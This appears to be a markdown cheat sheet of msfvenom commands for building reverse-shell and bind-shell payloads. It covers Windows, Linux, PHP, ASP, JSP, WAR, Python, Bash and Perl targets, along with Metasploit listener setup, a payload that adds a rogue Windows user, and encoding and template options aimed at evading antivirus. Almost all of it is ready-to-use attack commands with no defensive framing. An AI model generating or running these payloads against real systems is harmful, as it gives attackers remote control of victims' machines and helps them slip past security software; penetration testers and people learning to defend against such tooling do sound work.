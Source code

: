 ## Creating a payload

- msfvenom -p [payload] LHOST=[listeninghost] LPORT=[listeningport]

To view list of payloads: msfvenom -l payloads
To view the payload options: msfvenom -p windows/x64/meterpreter_reverse_tcp --list-options

## Creating a payload with encoding

- msfvenom -p [payload] -e [encoder] -f [formattype] -i [iteration] <var=value> > outputfile

## Creating a payload using a template

- msfvenom -p [payload] <var=value> -x [template] -f [formattype] > outputfile

## Listening for MSfvenom Payloads:

```
msf5>use exploit/multi/handler  
msf5>set payload windows/meterpreter/reverse_tcp  
msf5>set lhost <IP>  
msf5>set lport <PORT>  
msf5> set ExitOnSession false  
msf5>exploit -j  
```

## Windows Payloads

- msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe	
- msfvenom -p windows/meterpreter_reverse_http LHOST=IP LPORT=PORT HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe	
- msfvenom -p windows/meterpreter/bind_tcp RHOST= IP LPORT=PORT -f exe > shell.exe	
- msfvenom -p windows/shell/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe	
- msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe

## Linux Payloads

- msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf	
- msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf	
- msfvenom -p linux/x64/shell_bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf	
- msfvenom -p linux/x64/shell_reverse_tcp RHOST=IP LPORT=PORT -f elf > shell.elf

Add a user in windows with msfvenom: 

- msfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe

## Web Payloads

PHP

- msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

ASP

- msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp

JSP

- msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp

WAR

- msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war

## Scripting Payloads

Python

- msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py

Bash

- msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh

Perl

- msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl


Creating an Msfvenom Payload with an encoder while removing bad charecters:

- msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/shikata_ga_nai -b "\x0A\x0D"

## Resources:

- https://hacker.house/lab/windows-defender-bypassing-for-meterpreter/